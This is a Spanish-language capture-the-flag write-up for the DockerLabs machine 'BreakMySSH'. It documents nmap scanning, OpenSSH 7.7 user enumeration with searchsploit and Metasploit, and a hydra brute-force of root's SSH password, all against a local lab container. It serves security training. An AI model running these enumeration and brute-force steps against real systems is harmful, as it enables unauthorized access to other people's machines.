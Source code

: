 # 🖥️ Writeup - BreakMySSH 

**Plataforma:** Dockerlabs  
**Sistema Operativo:** Linux  

# INSTALACIÓN

Descargamos el `.zip` de la máquina desde DockerLabs a nuestro entorno y seguimos los siguientes pasos.

```bash 
unzip breakmyssh.zip
```
La máquina ya está descomprimida y solo falta montarla.

```bash
sudo bash auto_deploy.sh breakmyssh.tar
``` 
Info:

```

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
``` 

Una vez desplegada, cuando terminemos de hackearla, con un `Ctrl + C` se eliminará automáticamente para que no queden archivos residuales.

# ESCANEO DE PUERTOS

A continuación, realizamos un escaneo general para comprobar qué puertos están abiertos y luego uno más exhaustivo para obtener información relevante sobre los servicios.

```bash
nmap -n -Pn -sS -sV -p- --open --min-rate 5000 172.17.0.2
``` 

```bash
nmap -n -Pn -sCV -p22,80 --min-rate 5000 172.17.0.2
```

Info:
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-11 17:28 CEST
Nmap scan report for 172.17.0.2
Host is up (0.0000070s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.7 (protocol 2.0)
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1.20 seconds
```

Vemos que solo el puerto `22` (`SSH`) está abierto y que la versión de `OpenSSH` que corre es la `7.7`.

Esta versión en concreto es vulnerable a enumeración de usuarios, como podemos comprobar tras utilizar `searchsploit`.

```bash
searchsploit OpenSSH 7.7
```

Info:
```
----------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                               |  Path
----------------------------------------------------------------------------- ---------------------------------
OpenSSH 2.3 < 7.7 - Username Enumeration                                     | linux/remote/45233.py
OpenSSH 2.3 < 7.7 - Username Enumeration (PoC)                               | linux/remote/45210.py
OpenSSH < 7.7 - User Enumeration (2)                                         | linux/remote/45939.py
----------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Abrimos Metasploit y empleamos el módulo de `enumusers`.

```js
use auxiliary/scanner/ssh/ssh_enumusers 
show options
set USER_FILE /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
run
```

Info:
```
[*] 172.17.0.2:22 - SSH - Using malformed packet technique
[*] 172.17.0.2:22 - SSH - Checking for false positives
[*] 172.17.0.2:22 - SSH - Starting scan
[+] 172.17.0.2:22 - SSH - User 'mail' found
[+] 172.17.0.2:22 - SSH - User 'root' found
[+] 172.17.0.2:22 - SSH - User 'news' found
[+] 172.17.0.2:22 - SSH - User 'man' found
[+] 172.17.0.2:22 - SSH - User 'bin' found
[+] 172.17.0.2:22 - SSH - User 'games' found
[+] 172.17.0.2:22 - SSH - User 'nobody' found
[+] 172.17.0.2:22 - SSH - User 'lovely' found
^C[*] Caught interrupt from the console...
[*] Auxiliary module execution completed

```

Encontramos un usuario que no es por defecto: `lovely`.

# FUERZA BRUTA

Intentamos un ataque de fuerza bruta sobre este usuario.

```bash
hydra -l lovely -P /usr/share/wordlists/rockyou.txt 172.17.0.2 ssh -t 60
```

Después de 10 minutos aún no se ha encontrado ninguna coincidencia, así que probamos directamente un ataque de `fuerza bruta` sobre el usuario `root`.

```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt 172.17.0.2 ssh -t 60
```

Info:
```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-11 17:40:01
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 60 tasks per 1 server, overall 60 tasks, 14344399 login tries (l:1/p:14344399), ~239074 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: root   password: estrella
```

Casi de inmediato obtenemos las credenciales para `root` : `estrella`.

Accedemos por `SSH` como `root`.

```bash 
ssh root@172.17.0.2
```

Info:
```
root@54677c43b6f8:~# whoami
root
root@54677c43b6f8:~#
```

Ya somos root !